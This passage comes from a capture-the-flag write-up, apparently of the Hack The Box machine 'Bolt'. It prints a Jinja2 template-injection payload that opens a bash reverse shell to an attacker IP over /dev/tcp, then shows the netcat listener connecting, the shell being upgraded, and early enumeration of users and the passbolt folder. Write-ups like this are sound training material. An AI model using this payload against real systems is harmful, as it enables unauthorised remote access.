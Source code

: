## Reverse Shell

We can the contents is the passwd file, confirming we have server side code execution. Now we can move on to a reverse shell using the same method. I had to try a few different examples, eventually I found this one works:

```text
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.192/4444 0>&1"').read() }}
```

As before change the profile, submit, switch to mail and click on the link in it to initiate our reverse shell. Switching to our waiting netcat listener on Kali we see we're connected:

```sh
┌──(root💀kali)-[~/htb/bolt]
└─# nc -nlvp 4444  
listening on [any] 4444 ...
connect to [10.10.14.192] from (UNKNOWN) [10.10.11.114] 60402
bash: cannot set terminal process group (997): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bolt:~/demo$ 
```

First let's upgrade our shell:

```sh
www-data@bolt:/$ which python3
/usr/bin/python3
www-data@bolt:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@bolt:/$ ^Z  
zsh: suspended  nc -nlvp 4444
┌──(root💀kali)-[~/htb/bolt]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 4444
www-data@bolt:/$ 
```

Check what users we have:

```text
www-data@bolt:/etc/passbolt$ ls -l /home
total 8
drwxr-x--- 15 clark clark 4096 Feb 25  2021 clark
drwxr-x--- 16 eddie eddie 4096 Aug 26 23:55 eddie
```

## Passbolt Files

Two users but no access to them. Looking around for anything out of place before trying LinPEAS I found this folder:

```text
www-data@bolt:/$ find . \! -group root -d -maxdepth 2 2>/dev/null
<SNIP>
./etc/passbolt
```
